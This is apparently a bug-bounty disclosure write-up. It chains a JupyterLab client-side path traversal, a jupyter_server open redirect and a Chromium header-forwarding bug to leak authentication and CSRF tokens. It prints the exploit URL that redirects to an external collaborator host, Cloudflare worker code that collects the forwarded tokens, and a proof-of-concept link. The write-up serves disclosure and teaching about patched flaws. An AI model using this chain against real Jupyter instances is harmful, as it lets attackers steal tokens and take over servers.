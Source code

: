 # Leaking Jupyter instance auth token chaining CVE-2023-39968, CVE-2024-22421 and a chromium bug



After getting an invitation to [Jupyter](https://app.intigriti.com/researcher/programs/jupyter/jupyter/detail)'s private (then public and now not active anymore) program on [Intigriti](https://www.intigriti.com/) I decided to dig into its codebase. Spending a few hours I found a client side path traversal issue chaining which with an open redirect and a chromium issue, I was able to leak Jupyterlab's authentication and csrf tokens.
<!--more-->


### Client side path traversal

To find a client side path traversal I usually go one of these ways: blackboxy, i.e. spraying `../../../traversed` in all the query string or fragment parameters, or whiteboxy, i.e. manually looking for fetch/xhr sinks in javascript code. In this case, I started with spraying, then finding out the root cause of the issue.\
Reading the docs, I found [`clone`](https://jupyterlab.readthedocs.io/en/latest/user/urls.html#cloning-workspaces) parameter which would, as the name suggests, clone a workspace. I navigated to [http://localhost:8888/lab?clone=anything](http://localhost:8888/lab?clone=anything) (localhost:8888 is a jupyterlab local instance) and saw the reflection in the api request path.

![path reflection](path-reflection.png "path reflection")

Then I tried to go back a few levels by opening the following URL [http://localhost:8888/lab?clone=../../../traversed](http://localhost:8888/lab?clone=../../../traversed), and to my surprise, it worked, the app traversed back from the `workspaces` api endpoint to `/traversed`

![client side path traversal](traversed.png "client side path traversal")

But why would this work? To understand it we should start with the source, i.e. where the app starts processing `clone` query parameter, and see how it reaches the request sink. The source is located on line 439 at [packages/apputils-extension/src/index.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/apputils-extension/src/index.ts#L438-L453) and is being passed to `workspaces.fetch` on line 453.

![clone parameter source](clone-source.png "clone parameter source")

Then `workspaces.fetch` passes it to `makeRequest` at [packages/services/src/workspace/index.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/services/src/workspace/index.ts#L48) on line 48, after joining the path unsafely (`id`, i.e. malicious path via delivered via `clone` query parameter, being appended to the initial path) with URLExt.join ([packages/coreutils/src/url.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/coreutils/src/url.ts#L55)).

![workspaces.fetch](workspaces-fetch.png "workspaces.fetch")
![Private.url](private-url.png "Private.url")
![URLExt.join](urlext-join.png "URLExt.join")

And makeRequest (handleRequest) appends authorization and csrf headers at [packages/services/src/serverconnection.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/services/src/serverconnection.ts#L283-L293) on lines 283-293

![makeRequest](makeRequest.png "makeRequest")
![handleRequest](handleRequest.png "handleRequest")


### Open redirect

Now was the time I started looking for an open redirect or other ways I could store and serve my content to `workspaces.fetch` request.
Opening [http://localhost:8888/lab](http://localhost:8888/login?next=%2Flab) in an unauthenticated browser session I noticed I was redirected to [http://localhost:8888/login?next=%2Flab](http://localhost:8888/login?next=%2Flab), so I went into [jupyter_server](https://github.com/jupyter-server/jupyter_server) codebase to find out if `next` parameter was checking the redirect uri properly.

Searching for `next` led me to [jupyter_server/auth/login.py](https://github.com/jupyter-server/jupyter_server/blob/cd8010e2335de29e6f9d7b98cd496b0695bc0ed3/jupyter_server/auth/login.py#L67), which was passing it to `_redirect_safe` on line 67.

![login handler](login-handler.png "login handler")

On line 45 it is stated that if the parsed uri does not have a `netloc`, `next` query param will be used to redirect as is (line 61) [jupyter_server/auth/login.py](https://github.com/jupyter-server/jupyter_server/blob/cd8010e2335de29e6f9d7b98cd496b0695bc0ed3/jupyter_server/auth/login.py#L45)

![netloc issue](netloc-issue.png "netloc issue")

This check was possible to bypass with a url like the following - https:///evil.com (it won't have a netloc)

![python url parsing issue](python-urlparse-issue.png "python url parsing issue")

So the following URL - [http://localhost:8888/login?next=https:///evil.com](http://localhost:8888/login?next=https:///evil.com), will successfully redirect an authenticated client to https://evil.com 


### Leaking the authentication and csrf tokens

To test the issue I tried redirecting to a burp collaborator instance and see if the client would make a request to it after being redirected with the following url
```
http://localhost:8888/lab?clone=../../../login%3fnext%3dhttps%3a%2f%2f%2fmyid.oastify.com
```

Oastify, being not the same origin, triggered CORS process requiring the server to allow the following headers.
```HTTP
Access-Control-Request-Headers: authorization,content-type,x-xsrftoken
```

So I created a cloudflare worker with the following code
``` javascript
const headers = { 
    "Content-Type": "application/json",
    "Access-Control-Allow-Origin": "*",
    "Access-Control-Allow-Headers": "authorization,content-type,x-xsrftoken"
}
const fileBr = {
    data: {
    }
}


export default {
  async fetch(request, env, ctx) {
    return new Response(JSON.stringify(fileBr),{headers});
  },
};
```

The weirdest part was that the custom set headers were also being forwarded to my origin even after being redirected.

![leaking credentials](leak-credentials.png "leaking credentials")

These credentials can then be used to get access to the server simply by navigating to `http://localhost:8888/lab?token=<leaked-token>`.

### Chromium bug

At first, I thought it was an issue in [follow-redirects](https://www.npmjs.com/package/follow-redirects) package, as it had a similar vulnerability https://security.snyk.io/vuln/SNYK-JS-FOLLOWREDIRECTS-2332181 and jupyterlab had the vulnerable version. So I left it as is without taking a proper look into it.

After about a month I encountered the same issue on another program. This time it was passed into fetch API directly (not into a wrapper).

![fetch api sink](fetchapi.png "fetch api sink")

Just to be sure 😅, I have created a similar poc at https://chromium-poc-53c4.xssam.workers.dev/?id=../../redirect/?url=https://chromium-poc-cors-dd35.xssam.workers.dev/ AND IT WORKED !!.

![chromium leak](chromium-leak.png "chromium leak")

I have previously seen similar behavior on mobile apps, but chromium doing the same, was something unexpected. So I just created a ticket in the chromium bug tracker and got a quick response that it was a duplicate of a closed issue.

![duplicate](duplicate.png "duplicate issue")

This has since been fixed, and chromium does not forward custom set headers on redirect anymore.


### Closing words and tooling 

Client side path traversal vulnerabilities are quite common in single-page applications and it is always worth looking for them. Although the chromium bug is now patched, CSPT issues have a big potential to get turned into CSRF, XSS or info leaks.

I have been encountering similar issues pretty often, so to ease the process of finding path traversals, I have developed (shamelessly copied from various places) a chromium extension that will log the xhr/fetch reflected parameters in a popup https://github.com/davwwwx/Reflection-Logger.

![reflection logger extension](reflection-logger.png "reflection logger extension")

The extension is at a very early stage, so if you want a more stable tool please use Burp Suite extension at https://github.com/doyensec/CSPTBurpExtension, introduced by an amazing research whitepaper by Doyensec team https://www.doyensec.com/resources/Doyensec_CSPT2CSRF_Whitepaper.pdf, check it out for more CSPT techniques.
